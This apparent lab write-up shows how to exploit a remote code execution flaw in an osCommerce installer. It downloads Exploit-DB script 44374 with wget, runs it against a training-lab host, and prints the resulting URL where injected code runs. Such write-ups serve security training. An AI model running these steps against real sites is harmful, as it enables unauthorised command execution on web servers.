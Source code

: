 #### 3. osCommerce

- A version of osCommerce is vulnerable to a remote code execution attack. Exploiting this flaw does not require any valid accounts on the system. A attacker can remotely exploit the system and run arbitrary commands on the system as the web server user.
- Your task is to find this vulnerability and gain remote code exploitation!

----

```
http://uddqjcntsrtl0u4rxnvgfl90w.public1.attackdefenselabs.com/install
```

![](images/3/1.png)

![](images/3/2.png)

![](images/3/3.png)

![](images/3/4.png)

```sh
dev@box:~$ wget https://www.exploit-db.com/download/44374
--2018-12-17 22:24:20--  https://www.exploit-db.com/download/44374
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1833 (1.8K) [application/txt]
Saving to: ‘44374’

44374               100%[===================>]   1.79K  --.-KB/s    in 0s

2018-12-17 22:24:20 (180 MB/s) - ‘44374’ saved [1833/1833]

dev@box:~$
dev@box:~$ mv 44374 44374.py
```

```sh
dev@box:~$ python 44374.py
[+] Successfully launched the exploit. Open the following URL to execute your code

http://uddqjcntsrtl0u4rxnvgfl90w.public1.attackdefenselabs.com/install/install/includes/configure.php
dev@box:~$
```

![](images/3/5.png)